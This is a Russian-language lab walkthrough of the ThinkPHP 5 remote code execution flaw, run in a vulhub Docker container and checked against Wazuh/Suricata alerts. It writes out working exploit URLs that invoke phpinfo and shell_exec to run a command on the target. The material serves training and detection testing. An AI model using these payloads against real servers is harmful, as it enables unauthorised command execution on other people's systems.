



# 5-rce

### Материалы:

* [https://www.programmersought.com/article/91363936232/](https://www.programmersought.com/article/91363936232/)

ThinkPHP — чрезвычайно широко используемая среда PHP разработки в Китае. В пятой версии ThinkPHP, поскольку платформа неправильно обрабатывает имя контроллера, она может выполнить любой метод, если на веб-сайте не включена обязательная маршрутизация (которая используется по умолчанию), что приводит к уязвимости RCE.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/thinkphp/5-rce

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна стандартна страница ThinkPHP

<figure><figcaption></figcaption></figure>

Посетите следующую страницу для реализации уязвимости и вывода страницы phpinfo

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

<figure><figcaption></figcaption></figure>

Также вы можете выполнять произвольные команды на целевой машине, например команду "id":

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=id
```

<figure><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><figcaption></figcaption></figure>
